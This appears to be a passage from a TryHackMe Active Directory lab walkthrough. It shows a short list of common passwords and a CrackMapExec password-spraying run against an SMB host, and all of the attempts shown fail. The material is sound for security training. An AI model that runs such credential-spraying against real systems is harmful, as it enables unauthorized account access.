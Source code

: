 ```bash                                                      
┌──(hax㉿HaxonKali)-[~/THM/LEARN/Windows/AD]
└─$ cat passwd                              
Password!
Password1
Password1!
P@ssword
Pa55word1
```

We can use **CrackMapExec** to run our password spraying attack against the WRK computer:

```bash
┌──(hax㉿HaxonKali)-[~/THM/LEARN/Windows/AD]
└─$ crackmapexec smb 10.211.11.20 -u users -p passwd   

- - - - - - - - - - - - - - - - - - - - - - - - - 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:P@ssword STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:Pa55word1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:P@ssword STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:Pa55word1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:P@ssword STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:Pa55word1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:P@ssword STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:Pa55word1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\asrepuser1:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\asrepuser1:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\asrepuser1:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\asrepuser1:P@ssword STATUS_LOGON_FAILURE 
```